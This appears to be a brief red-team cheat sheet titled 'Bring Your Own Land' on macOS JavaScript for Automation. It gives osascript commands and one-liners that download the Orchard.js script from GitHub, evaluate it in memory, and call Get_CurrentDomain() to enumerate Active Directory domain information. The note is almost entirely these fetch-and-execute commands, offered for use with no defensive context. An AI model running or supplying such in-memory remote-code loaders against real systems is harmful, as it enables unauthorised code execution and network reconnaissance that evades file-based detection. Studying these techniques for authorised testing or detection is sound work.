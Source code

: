 # Bring Your Own Land

## Scripting

TODO: Check all of the functions

### Enumerate Domain Controllers

#### Interactive Mode

```
$ osascript -l JavaScript -i

eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('https://github.com/its-a-feature/Orchard/raw/refs/heads/master/Orchard.js')),$.NSUTF8StringEncoding)));

eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('https://raw.githubusercontent.com/its-a-feature/Orchard/master/Orchard.js')),$.NSUTF8StringEncoding)));
```

```
Get_CurrentDomain();
```

#### One-liners

```
$ osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('https://raw.githubusercontent.com/its-a-feature/Orchard/master/Orchard.js')),$.NSUTF8StringEncoding))); Get_CurrentDomain();"

$ osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('https://github.com/its-a-feature/Orchard/raw/refs/heads/master/Orchard.js')),$.NSUTF8StringEncoding)));"
```

---
## References

### Source Repositories

- [its a feature: Orchard](https://github.com/its-a-feature/Orchard)